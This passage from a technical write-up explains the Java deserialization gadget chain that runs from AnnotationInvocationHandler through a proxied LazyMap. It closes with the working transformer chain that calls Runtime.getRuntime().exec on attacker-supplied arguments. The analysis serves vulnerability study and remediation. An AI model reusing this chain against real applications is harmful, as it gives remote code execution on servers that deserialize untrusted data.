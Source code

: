 ```java
	              value instanceof ExceptionProxy)) {  
	            value = new AnnotationTypeMismatchExceptionProxy(  
	                        objectToString(value))  
	                .setMember(annotationType.members().get(name));  
        }  
    }
```
Obtain `memberValues`(which is a `Proxy`) and call `entrySet()` on it. The proxy will employ its `InvocationHandler` member to trigger `invoke()` method with *entrySet* method as one of parameters. In handler2's `invoke()`:
```java
public Object invoke(Object proxy, Method method, Object[] args) {  
    String member = method.getName();
    ...
    Object result = memberValues.get(member);  
	if (result == null)  
	    throw new IncompleteAnnotationException(type, member);
	...
}
```
As for handler2, `memberValues` is a `LazyMap` object with evil transformer chain, when its `get` is called, since there is no key like *entrySet* in this empty map, the transformer chain will be triggered as code below presents:
```java
// LazyMap.java
public Object get(Object key) {  
    // create value for key if key is not currently in the map  
    if (map.containsKey(key) == false) {  
        Object value = factory.transform(key);  
        map.put(key, value);  
        return value;  
    }  
    return map.get(key);  
}
```

The evil transformer chain is usually presented as:
```java
final Transformer transformerChain = new ChainedTransformer(  
    new Transformer[]{new ConstantTransformer(1)});  
// real chain for after setup  
final Transformer[] transformers = new Transformer[]{  
    new ConstantTransformer(Runtime.class),  
    new InvokerTransformer("getMethod", new Class[]{  
        String.class, Class[].class}, new Object[]{  
        "getRuntime", new Class[0]}),  
    new InvokerTransformer("invoke", new Class[]{  
        Object.class, Object[].class}, new Object[]{  
        null, new Object[0]}),  
    new InvokerTransformer("exec",  
        new Class[]{String.class}, execArgs),  
    new ConstantTransformer(1)};

Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
```
End.


[^1]: [Paper/浅谈Java反序列化漏洞修复方案.md at master · Cryin/Paper](https://github.com/Cryin/Paper/blob/master/%E6%B5%85%E8%B0%88Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88.md)